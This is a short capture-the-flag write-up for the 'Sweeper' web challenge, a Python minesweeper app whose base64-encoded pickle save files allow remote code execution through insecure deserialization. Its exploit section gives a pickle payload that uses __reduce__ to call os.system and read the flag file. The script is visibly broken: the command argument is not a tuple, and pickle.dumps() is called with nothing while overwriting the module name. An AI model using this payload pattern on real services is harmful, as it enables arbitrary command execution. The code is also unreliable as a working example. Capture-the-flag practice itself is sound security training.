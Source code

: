 # CyberOpen Season II - Sweeper - Web Exploitation

## Challenge Description

A twist on a classic game. Tread lightly while you dig up the flag.

## High-level summary

This custom python implementation of Windows' classic minesweeper game has a RCE vulnerability through insecure deserialization in the load/save aspect of the web application. The save files are base64 encoded python pickle objects that can be used to obtain RCE.

## Investigation

![alt text] (./images/hexdump.png)

## Exploit

```python
import os
import pickle
import base64

class RCE():
    def __reduce__(self):
        return (os.system, "cat /flag.txt",)

if __name__ == '__main__':
    pickle = pickle.dumps()
```
